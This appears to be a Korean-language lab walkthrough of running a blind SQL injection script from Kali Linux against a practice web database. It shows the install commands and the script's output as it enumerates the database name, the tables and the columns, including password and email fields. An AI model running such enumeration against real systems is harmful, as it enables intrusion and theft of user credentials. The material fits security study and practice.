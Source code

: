 root@kali-04:~/Desktop# python first_blind.py 

오류남 모듈부터 설치해주기



root@kali-04:~/Desktop# apt-get -y install python-pip

설치 확인

root@kali-04:~/Desktop# dpkg -l python-pip

```
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version       Architecture Description
+++-==============-=============-============-=================================
ii  python-pip     20.0.2-5kali1 all          Python package installer
```

root@kali-04:~/Desktop# pip install requests

다시

root@kali-04:~/Desktop# python first_blind.py 

```
[+] Blind SQL Injection
[+] Database Name Length Search
[+] Find Database Length [7]
[+] Database Name String Serach
W e b T e s t 
[+] Find Database String [WebTest]
[+] Table Name String Search
b o a r d , m e m b e r  
[+] Find Tables Name [board,member]
[+] Find Name String Search by [board] Table
s t r N u m b e r , s t r N a m e , s t r P a s s w o r d , s t r E m a i l , s t r S u b j e c t , s t r C o n t e n t , h t m l T a g , v i e w C o u n t , f i l e n a m e , f i l e s i z e , w r i t e D a t e  
[+] Find columns Name [strNumber,strName,strPassword,strEmail,strSubject,strContent,htmlTag,viewCount,filename,filesize,writeDate]
[+] Record String Search

```

board 랑 member 만 보려면 다시 vim first_blind.py 들어가서 맨 밑에table_names [0]을 다 1로 바꿔준다

다시 root@kali-04:~/Desktop# python first_blind.py  해보면

```
[+] Blind SQL Injection
[+] Database Name Length Search
[+] Find Database Length [7]
[+] Database Name String Serach
W e b T e s t 
[+] Find Database String [WebTest]
[+] Table Name String Search
b o a r d , m e m b e r  
[+] Find Tables Name [board,member]
[+] Find Name String Search by [member] Table
n o , u _ i d , u _ p a s s , u _ n a m e , n i c k n a m e , a g e , e m a i l , r e g _ d a t e  
[+] Find columns Name [no,u_id,u_pass,u_name,nickname,age,email,reg_date]
[+] Record String Search

```
